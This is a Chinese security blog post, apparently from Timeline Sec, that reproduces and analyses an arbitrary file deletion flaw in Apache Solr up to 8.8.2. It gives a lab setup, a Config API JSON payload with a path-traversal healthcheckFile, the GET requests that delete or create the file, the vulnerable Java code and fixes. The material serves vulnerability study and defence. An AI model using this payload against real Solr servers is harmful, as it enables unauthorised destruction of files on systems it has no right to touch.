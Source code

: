 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JXBiQR3q7ykITVFBwm_9Vg)

**上方蓝色字体关注我们，一起学安全！**

**作者：🐟****@Timeline Sec  
**

**本文字数：949**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

_Solr_ 是一个独立的企业级搜索应用服务器，它对外提供类似于 Web-service 的 API 接口。用户可以通过 http 请求，向搜索引擎服务器提交一定格式的 XML 文件，生成索引；也可以通过 Http Get 操作提出查找请求，并得到 XML 格式的返回结果。

**0x02 漏洞概述**  

  

这是个 "任意" 文件删除漏洞, 可以删除 Files.delete() 能删的任何文件。

**0x03 影响版本**  

  

Solr <= 8.8.2

**0x04 环境搭建**  

  

1、先在官网上下个 8.8.2 的 Solr 的安装包, 我这里为了方便就装个 Windows 版的  

```
https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/8.8.2/
```

2、开一个有 core 的实例, 我这里用的是 DataImportHandler 的范例配置，进入 bin 目录下执行  

```
solr.cmd -e dih
```

访问：http://IP:8983/solr/#/

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjVRVRKZv8CmdpA4FQUgQiafXXk6zqPdoKFOBjmXTVLQNrz9jK74liauW2eVIDtt6wyhjnL9pGEIlVA/640?wx_fmt=png)  

**0x05 漏洞复现**  

  

1、在 C:\Windows\Temp \ 下新建一个 test.txt，图有误  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiabuEhl0icoxN421uKDib6s5fGONtFhaNAyTCyrPvoUXwzDp5Xjtgiba9oib29RFVicLCaWPib7btkSnUag/640?wx_fmt=png)

2、向任意 core 的 config API 发送一个 POST 包, 例如 /solr/db/config 或者 /solr/solr/config 之类的  

```
{
  "add-requesthandler": {
    "name": "/test1", // 这里填 RequestHandler 的路径
    "class":"solr.PingRequestHandler",
    "healthcheckFile":"../../../../../../../../../../../../../Windows/Temp/test.txt",
  }
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiabuEhl0icoxN421uKDib6s5fUBR0FnIXYMe4onvY5QUQlG6gOmBGek5UK9P1fwAbYdyOWIef2bM9vg/640?wx_fmt=png)

2、访问  

```
http://172.16.255.2:8983/solr/db/config/overlay?omitHeader=true
```

检查是否创建成功  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiabuEhl0icoxN421uKDib6s5fOIdJB4lLsiby187drgPa8Nkvey1hleC3ovbsHNWLMmeKe1KzSaskw0Q/640?wx_fmt=png)

3、向之前发送包的 config API 发送一个 GET 请求, 参数为 action=DISABLE 例如：/solr/db/test1?action=DISABLE  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiabuEhl0icoxN421uKDib6s5fOjcwYTI4qHEIIPMsnib5q0HnrOiaE8xPus1R0BvJhoFH3CtWt260ck8w/640?wx_fmt=png)

这时会删除之前设置的文件, 同理 action=ENABLE 会生成之前设置的同名文件, 里面写的是一串 healthcheck 信息. 注意 /test 是之前设置过的路径

**0x06 漏洞分析**  

  

很明显这个漏洞源自于 PingRequestHandler, 当一个 Config API POST 请求被提交之后, Solr 先是执行 handlePOST 函数, 经过一堆 load 和 get 之后会初始化一个 PingRequestHandler

```
public void handleRequestBody(SolrQueryRequest req, SolrQueryResponse rsp) throws Exception {
    ...
    if ("POST".equals(httpMethod)) {
      ...
      try {
        command.handlePOST();
      }
      ...
    }
  }
```

然后这个 PingRequestHandler 在得到 GET 指令之后会直接执行 java.nio.file.Files 修改文件的操作而不检查文件的路径信息

```
protected void handleEnable(boolean enable) throws SolrException {
    ...
    if ( enable ) {
      try {
        // write out when the file was created
        FileUtils.write(healthcheck, Instant.now().toString(), "UTF-8");
      } 
      ...
    } else {
      try {
        Files.deleteIfExists(healthcheck.toPath());
      }
      ...
    }
  }
```

**0x07 修复方式**  

  

1、官方没有修复建议, 毕竟 Files.delete() 有 IOException 兜底，不过可以为 Solr 配置身份校验插件, 从而避免任意用户修改 config；  

2、Config API 这种东西就应该给配置个身份验证, 并且也不应该对外开放。

```
参考链接：
```

https://mp.weixin.qq.com/s/dECH74n5qjrWT9lok8IkPQ

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行